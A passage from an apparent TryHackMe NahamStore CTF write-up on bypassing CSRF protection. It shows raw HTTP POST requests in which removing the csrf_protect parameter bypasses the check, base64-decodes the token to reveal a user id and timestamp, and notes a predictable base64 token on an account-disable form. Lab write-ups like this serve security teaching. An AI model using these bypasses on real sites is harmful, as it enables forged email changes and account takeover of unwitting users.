 2. What field can be removed to defeat the CSRF protection

**In the `Change Email` page, there is a CSRF protection:**

**View-Source:**
```html
<form method="post">
    <input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0=">
    <div><label>Email:</label></div>
    <div><input class="form-control" name="change_email" value="test@gmail.com" ></div>
    <div style="margin-top:7px">
	<input type="submit" class="btn btn-success pull-right" value="Change Email"></div>
</form>
```

**To bypass the CSRF protection, we can just simply remove the `csrf_protect` POST parameter:**

**Before:**
```
POST /account/settings/email HTTP/1.1
[...]
csrf_protect=eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0%3D&change_email=test%40gmail.com
```

**After:**
```
POST /account/settings/email HTTP/1.1
[...]
change_email=test%40gmail.com
```

3. What simple encoding is used to try and CSRF protect a form

**In the above `csrf_protect` POST parameter, we can see that the `value` is being encoded in `base64`:**
```
eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0=
```

**We can decode that via `base64 -d`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# echo "eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZek56TTROVEUxSW4wPSIsInNpZ25hdHVyZSI6ImZmYmQxOTk0NzNkODUzMjg2MTRlNWQ0Mzg4MWYyZmU4In0=" | base64 -d
{"data":"eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjYzNzM4NTE1In0=","signature":"ffbd199473d85328614e5d43881f2fe8"}

┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# echo "eyJ1c2VyX2lkIjo0LCJ0aW1lc3RhbXAiOiIxNjYzNzM4NTE1In0=" | base64 -d
{"user_id":4,"timestamp":"1663738515"}
```

**We can also see that the `Disable Account` page is using `base64` to encode CSRF token instead of random string.**
```html
<form method="post">
    <input type="hidden" name="action" value="disable">
    <input type="hidden" name="csrf_disable_protect" value="NA==">
    <p></p>
    <div style="margin-top:7px">
    <p>Please only click the below button if you are 100% sure you wish to disable your account. All your data will be lost.</p>
	<input type="submit" class="btn btn-danger pull-right" value="Disable Account"></div>
</form>
```

